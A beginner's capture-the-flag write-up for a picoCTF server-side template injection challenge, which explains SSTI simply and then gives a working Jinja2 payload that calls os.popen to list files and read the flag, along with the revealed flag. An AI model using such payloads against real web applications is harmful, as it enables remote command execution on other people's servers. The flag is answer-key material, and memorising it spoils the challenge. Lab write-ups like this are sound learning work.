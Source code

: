 # [SST11 - Server Side Template Injection (Web Exploitation)](https://play.picoctf.org/practice/challenge/492?page=1)

**Challenge Description**  
"I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:52471/)! (The website might not work as the URL changes whenever the instance is opened)

**Category**: Web Exploitation  
**Difficulty**: Easy  

## Approach

This is my first CTF and I was clueless. I got confused about what to do with the URL. I searched up SSTI and got to know what it is. I'll explain SSTI in the simplest way possible without diving too deep into technical jargon and what I generally understood in these few hours.Imagine a website that lets you type your name, and then shows a welcome message like: Hello [your-name-here]!.Normally, if you type "Alice", it shows:Hello Alice! But if the website isn't built carefully, then there's a lot of problems that can occur. I got to know about the classic payload {{7*7}} from internet and thus used it. Also, I got to know that payloads are readymade found on the internet, depending upon the type of web template engine used. We just need to know how to tweak/modify it to use for our application in this CTF challenge.

1. **Identify SSTI Vulnerability**  
   Tested with `{{7*7}}` which returned `49`, confirming template injection.

2. **Command Execution**
   I found then a payload from the [website](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and used Jinja2 template engine exploit:
   ```jinja2
   {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

   This showed all the files and I found the "flag" file and thus again used "cat flag" command with little tweaking in the above command.
   ```jinja2
   {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
   which returned me the flag-picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}